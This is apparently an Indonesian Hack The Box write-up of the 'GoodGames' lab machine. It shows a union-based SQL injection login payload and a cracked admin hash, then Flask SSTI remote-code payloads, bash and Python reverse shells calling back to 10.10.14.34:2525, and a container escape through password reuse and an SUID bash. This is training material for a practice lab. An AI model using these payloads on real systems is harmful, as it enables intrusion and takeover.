


# GoodGames

### Port Scanning

Langkah pertama yang dilakukan adalah melakukan port scanning menggunakan nmap.

```
asuka@linuxsec:~$ sudo nmap -sV -sT -sC 10.129.96.71 | tee nmap-res.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-16 11:43 WIB
Nmap scan report for goodgames.htb (10.129.96.71)
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 147.88 seconds
```

Oke, dari hasil scanning sepertinya hanya ada satu port yang terbuka yakni port 80.

### Vhost Discovery

Selanjutnya adalah melakukan enumerasi subdomain dari goodgames.htb. Disini saya menggunakan ffuf.

```
asuka@linuxsec:~$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://goodgames.htb -H "Host: FUZZ.goodgames.htb" -fs 85107,0 -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://goodgames.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.goodgames.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 85107,0
________________________________________________

:: Progress: [100000/100000] :: Job [1/1] :: 222 req/sec :: Duration: [0:09:02] :: Errors: 0 ::
```

Kita tidak menemukan subdomain dari goodgames.htb sehingga eksploitasi kita hanya akan berfokus pada domain utama saja.

### Directory Scanning

Langkah selanjutnya adalah melakukan scanning directory pada goodgames.htb.

```
asuka@linuxsec:~$ ffuf -recursion-depth 3 --mc 200,302,500 -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H "User-Agent: Mozilla/5.0 (Windows; U; WinNT4.0; en-US; rv:1.7.9) Gecko/20050711 Firefox/1.0.5" -u http://goodgames.htb/FUZZ -fs 9265

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://goodgames.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
 :: Header           : User-Agent: Mozilla/5.0 (Windows; U; WinNT4.0; en-US; rv:1.7.9) Gecko/20050711 Firefox/1.0.5
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,302,500
 :: Filter           : Response size: 9265
________________________________________________

blog                    [Status: 200, Size: 44212, Words: 15590, Lines: 909, Duration: 828ms]
c7                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 2446ms]
coming-soon             [Status: 200, Size: 10524, Words: 2489, Lines: 287, Duration: 1128ms]
forgot-password         [Status: 200, Size: 32744, Words: 10608, Lines: 730, Duration: 660ms]
images_matrix           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 8154ms]
logout                  [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 687ms]
login                   [Status: 200, Size: 9294, Words: 2101, Lines: 267, Duration: 1684ms]
profile                 [Status: 200, Size: 9267, Words: 2093, Lines: 267, Duration: 689ms]
racing                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4757ms]
reklame                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 3327ms]
signup                  [Status: 200, Size: 33387, Words: 11042, Lines: 728, Duration: 1009ms]
:: Progress: [20476/20476] :: Job [1/1] :: 68 req/sec :: Duration: [0:04:11] :: Errors: 0 ::

```

Tidak banyak direktori ataupun file sensitif yang bisa dimanfaatkan. Namun disini kita menemukan url untuk melakukan registrasi,login, dan reset password yang mungkin bisa kita manfaatkan.

Oke dari tahap recon awal kita mendapatkan informasi berikut:

* Website goodgames.htb menggunakan Werkzeug
* Tidak ada file sensitif yang terekspos selama proses enumerasi sehingga ekspoitasi kita akan berfokus pada fitur login, register, dan reset password.

### Exploitation

Yang pertama kita coba adalah halaman login. Kita bisa mencoba beberapa kombinasi default credentials seperti **admin@goodgames.htb**:**password**, **admin@goodgames.htb**:**admin**, dll. Tidak berhasil. Selanjutnya kita coba eksploitasi paling umum pada halaman login, SQL Injection.

Kalian bisa gunakan sqlmap atau kalau kalian ingin lebih mengasal skill kalian bisa gunakan cara manual. Saya sudah pernah menulis artikel tentang [Union Based SQL Injection](https://exploit.linuxsec.org/tutorial-sql-injection-manual/). Singkatnya, payload akhir kita adalah:

```
POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=admin@goodgames.htb' union select 1,2,3,group_concat(email,0x3a,id,0x3a,password) from user --+&password=admin
```

<figure><figcaption></figcaption></figure>

Kita dapat valid email admin@goodgames.htb dan password **2b22337f218b2d82dfc3b6f77e7cb8ec**. Langsung kita crack saya menggunakan online hash cracker. Salahsatunya: [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

Hasilnya:

```
2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator
```

<figure><figcaption></figcaption></figure>

Langsung saja login menggunakan email admin@goodgames.htb dan password superadministrator.

<figure><figcaption></figcaption></figure>

Tidak banyak yang bisa dieksplor disini namun kita mendapatkan subdomain baru melalui menu yang terletak di pojok kanan atas. [http://internal-administration.goodgames.htb](http://internal-administration.goodgames.htb/). Langsung kita tambahkan host tersebut pada /etc/hosts di system kita.

Pada internal-administration.goodgames.htb kita coba login menggunakan username **admin** dan password yang kita gunakan sebelumnya, **superadministrator**.

<figure><figcaption></figcaption></figure>

Menggunakan addons browser Wappalyzer kita tau bahwa service ini menggunakan Flask.

<figure><figcaption></figcaption></figure>

Dan apa yang kalian pikirkan ketika mendengar kata Flask? Ya, SSTI. Untuk mengkonfirmasi apakah web ini memiliki kerentanan SSTI kita coba masukkan payload **\{{7\*7\}}**. Karena tidak banyak fitur yang bisa dicoba di halaman dashboard, kita langsung coba di form Edit Full Name.

<figure><figcaption></figcaption></figure>

Oke setelah dikonfirmasi web tersebut rentan terhadap SSTI, langkah selanjutnya adalah mendapatkan akses shell menggunakan kerentanan tersebut. Tenang saja, list payload SSTI to RCE sudah banyak bertebaran di internet. Berikut beberapa payload list untuk eksploitasi SSTI.

[Server Side Template Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

Singkat cerita, salahsatu payload yang bisa digunakan adalah:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id;uname -a').read() }}
```

<figure><figcaption></figcaption></figure>

Oke sekarang kita coba lakukan back connect agar lebih leluasa.

#### Spawning Shell

Oke disini saya mencoba reverse shell menggunakan payload

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.34/2525 0>&1
"').read() }}
```

Namun ternyata gagal. Saya sendiri kurang tau masalahnya dimana, kemungkinan di payload yang saya buat. Akhirnya saya kepikiran untuk memasukkan command tersebut kedalam sebuah file terlebih dahulu sebelum dipanggil.

Referensi:

[**Transfer File dengan Base64**](https://www.linuxsec.org/2020/04/menyalin-file-dengan-fitur-encode-base64.html)

[**Perintah Reverse Shell**](https://www.linuxsec.org/2016/06/reverse-shell-on-linux.html)

```
asuka@linuxsec:~$ cat rev.bash
#!/bin/bash
python3 -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.10.14.34",2525));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
asuka@linuxsec:~$ base64 rev.bash | tr -d '\n'
IyEvYmluL2Jhc2gKcHl0aG9uMyAtYyAnYT1fX2ltcG9ydF9fO2I9YSgic29ja2V0Iik7cD1hKCJzdWJwcm9jZXNzIikuY2FsbDtvPWEoIm9zIikuZHVwMjtzPWIuc29ja2V0KGIuQUZfSU5FVCxiLlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMC4xMC4xNC4zNCIsMjUyNSkpO2Y9cy5maWxlbm87byhmKCksMCk7byhmKCksMSk7byhmKCksMik7cChbIi9iaW4vc2giLCItaSJdKScK⏎
```

Payload yang dikirim:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash -c "echo IyEvYmluL2Jhc2gKcHl0aG9uMyAtYyAnYT1fX2ltcG9ydF9fO2I9YSgic29ja2V0Iik7cD1hKCJzdWJwcm9jZXNzIikuY2FsbDtvPWEoIm9zIikuZHVwMjtzPWIuc29ja2V0KGIuQUZfSU5FVCxiLlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMC4xMC4xNC4zNCIsMjUyNSkpO2Y9cy5maWxlbm87byhmKCksMCk7byhmKCksMSk7byhmKCksMik7cChbIi9iaW4vc2giLCItaSJdKScK | base64 -d | tee /tmp/reverse.sh"').read() }}
```

```
name={{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash /tmp/reverse.sh').read() }}
```

Dan kita berhasil mendapatkan shell di mesin target.

```
asuka@linuxsec:~$ nc -lvp 2525
listening on [any] 2525 ...
connect to [10.10.14.34] from goodgames.htb [10.129.96.71] 50448
/bin/sh: 0: can't access tty; job control turned off
# uname -a
Linux 3a453ab39d3d 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux
# id
uid=0(root) gid=0(root) groups=0(root)
# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
# 

```

Oke sepertinya kita didalam sebuah container. Kita cek direktori home apakah ada flag yang bisa diambil.

```
# ls -lha /home
total 12K
drwxr-xr-x 1 root root 4.0K Nov  5  2021 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
drwxr-xr-x 2 1000 1000 4.0K Oct 16 09:29 augustus
# ls -lha /home/augustus
total 1.2M
drwxr-xr-x 2 1000 1000 4.0K Oct 16 09:29 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 1000 1000   33 Oct 16 04:33 user.txt
# cat /home/augustus/user.txt
9df33163*****
```

Oke kita mendapatkan flag user. Namun ketika mengecek direktori /root tidak ada flag disitu. Kita bisa asumsikan bahwa kita harus escape terlebih dahulu dari container dan melakukan privilege escalation dari host.

Oh iya, ada satu yang aneh dalam container ini, yakni ketika kita mengecek file /etc/passwd kita tidak akan menjumpai user augustus disana.

```
# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

Kita bisa asumsikan direktori /home/augustus merupakan direktori yang dimounting dari host. Oke, kita simpan informasi ini untuk nanti.

#### Finding Host IP

```
# route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.19.0.1      0.0.0.0         UG    0      0        0 eth0
172.19.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0
```

Kita bisa asumsikan bahwa IP gateway adalah host dari container sekarang kita berada. Oke sekarang kita punya username **augustus**, alamat IP **172.19.0.1,** dan juga password **superadministrator** yang selalu bisa digunakan ulang. Sekarang langsung kita coba masuk kesana menggunakan informasi yang kita miliki.

```
# python -c 'import pty; pty.spawn("/bin/bash")' 
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 16 10:33:48 2022 from 172.19.0.2
augustus@GoodGames:~$
```

Pada step sebelumnya kita mendapatkan informasi bahwa direktori /home/augustus dimounting ke container 172.19.0.2. Kita bisa memanfaatkan kondisi ini untuk melakukan privilege escalation.

Referensi:

[Privilege Escalation with 2 shells and host mount](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount)

```
augustus@GoodGames:~$ ls -lha
ls -lha
total 1.2M
drwxr-xr-x 2 augustus augustus 4.0K Oct 17 01:29 .
drwxr-xr-x 3 root     root     4.0K Oct 19  2021 ..
-rwxr-xr-x 1 augustus augustus 1.2M Oct 17 01:29 bash
lrwxrwxrwx 1 root     root        9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 augustus augustus 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile
-rw-r----- 1 augustus augustus   33 Oct 16 05:33 user.txt
```

Dari container 172.19.0.2 kita jadikan file bash tadi menjadi suid binary.

```
root@3a453ab39d3d:/backend# cd /home/augustus
cd /home/augustus
root@3a453ab39d3d:/home/augustus# ls
ls
bash  user.txt
root@3a453ab39d3d:/home/augustus# chown root: bash
chown root: bash
root@3a453ab39d3d:/home/augustus# chmod u+sx bash
chmod u+sx bash
root@3a453ab39d3d:/home/augustus# ls -lha
ls -lha
total 1.2M
drwxr-xr-x 2 1000 1000 4.0K Oct 17 00:29 .
drwxr-xr-x 1 root root 4.0K Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3.5K Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rwsr-xr-x 1 root root 1.2M Oct 17 00:29 bash
-rw-r----- 1 1000 1000   33 Oct 16 04:33 user.txt
```

Dari mesin host, tinggal kita panggil file suid tadi.

<figure><figcaption></figcaption></figure>

Ini merupakan salahsatu mesin dengan kategori easy di HTB yang dapat digunakan untuk mengasah kemampuan basic kita dalam eksploitasi. Salahsatu hal yang bisa kita pelajari dari mesin ini adalah **password reuse attack**.

